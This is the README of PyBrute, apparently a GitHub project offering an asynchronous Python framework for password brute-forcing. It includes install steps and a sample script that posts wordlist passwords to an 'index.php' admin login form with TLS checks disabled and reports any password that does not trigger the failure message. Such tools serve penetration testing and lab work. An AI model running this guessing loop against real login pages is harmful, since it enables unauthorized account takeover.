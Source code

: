 # PyBrute

## Overview

PyBrute is a flexible and not so shitty bruteforce framework written in Python. It allows users to create custom bruteforce scripts and configure them for various tasks. This project is designed for asynchronous operations to maximize performance and efficiency.

## Features

- **Customizable Bruteforce Scripts:** Write your own bruteforce logic in Python.
- **Asynchronous Operations:** Utilizes `aiohttp` for non-blocking I/O operations.
- **Configurable Parameters:** Easily configure sessions, workers, and retries through `config.yaml`.

## Installation

1. Clone the repo:
    ```bash
    git clone https://github.com/CarixoHD/PyBrute.git
    ```
2. Navigate to the project directory:
    ```bash
    cd PyBrute
    ```
3. Install the required dependencies:
    ```bash
    pip install -r requirements.txt
    ```

## Usage

### Writing a Custom Bruteforce Script

Create your own function :

```python
from pybrute.runner import Runner
from pybrute.config import URL
import asyncio

result = []
async def main(session, password, results):
    password = password.strip()
    if not password:
        return None
    url = f"{URL}/index.php"
    form_data = {"name": "admin", "pwd": password}

    async with session.post(url, data=form_data, ssl=False) as response:
        resp = await response.text()
        if "Username or password is incorrect" not in resp:
            print(f"[+] Found password: {password}")
            # if you want to stop the script after finding one password, return True
            results.append(password)
            return True

    return None

run = Runner(main, result)
asyncio.run(run.run())

print(result)

```
**Note:** If you want the bruteforce to stop after one match, return `True`. If you want to find all the matches, return `None`.

### Configuring the Bruteforcer

Adjust the settings in `config.yaml`. This is also where you specify the wordlist you want to use, the url, the session and worker parameters, as well as headers, cookies, and payloads being used in the initial session setup.



README written by ChatGPT <3

